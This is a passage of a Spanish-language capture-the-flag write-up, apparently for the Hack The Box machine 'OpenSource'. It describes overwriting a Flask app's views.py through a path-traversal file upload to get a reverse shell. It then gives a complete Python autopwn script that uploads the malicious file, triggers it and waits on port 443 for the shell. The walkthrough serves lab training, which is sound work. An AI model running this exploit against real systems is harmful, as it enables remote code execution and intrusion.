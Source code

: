 Después de darle a *Forward* ya habremos modificado el archivo en la máquina víctima y ya podremos acceder a **http://10.10.11.164/pwned**. Cuando lo hagamos recibiremos nuestra *reverse shell*.

<img src="/photos/2022-10-08-OpenSource-WriteUp/revShell.png" alt="drawing"  />  

Existe otra forma de ganar acceso al contenedor. La contemplo en el apartado I*Extra*.

### Script Autopwn 

El siguiente *script* permite la **intrusión** de manera **automática** al contenedor. Simplemente se debe de tener en el mismo directorio el views.py malicioso mostrado anteriormente.

```python 
#!/usr/bin/python3 

from pwn import *
import requests,sys,threading

#Ctrl+C 
def def_handler(sig,frame):
    print("[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT,def_handler)

#Variables globales 
url = "http://10.10.11.164/upcloud"
burp = {'http': 'http://localhost:8080'}

def makeRequest():

    content = open("views.py", "rb")
    file_to_upload = {'file':('/app/app/views.py',content,'text/x-python')}

    r = requests.post(url,files = file_to_upload)
    r = requests.get("http://10.10.11.164/pwned")

if __name__ == '__main__':
    p1 = log.progress("OpenSource AutoPwn")
    p1.status("Exploiting python os.path.join uploading malicious file")
    time.sleep(2)

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(443, timeout=20).wait_for_connection()

    if shell.sock is None:
        p1.failure("Connection couldn't be stablished")
        sys.exit(1)
    else:
        shell.interactive()
```
